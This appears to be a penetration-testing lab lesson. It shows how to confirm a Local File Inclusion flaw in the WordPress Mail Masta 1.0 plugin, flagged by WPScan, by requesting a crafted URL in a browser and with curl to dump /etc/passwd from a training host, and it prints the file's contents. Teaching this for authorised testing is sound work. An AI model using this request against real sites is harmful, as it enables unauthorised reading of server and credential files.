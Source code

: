 # Exploiting a Vulnerable Plugin

## Leveraging WPScan Results

The report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of the `Mail Masta` plugin is known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

### **LFI using Browser**

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We can also validate this vulnerability using cURL on the command line.

### **LFI using cURL**

```shell-session
$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

We have successfully validated the vulnerability using the data generated in the `WPScan` report. Now let's try it out ourselves!

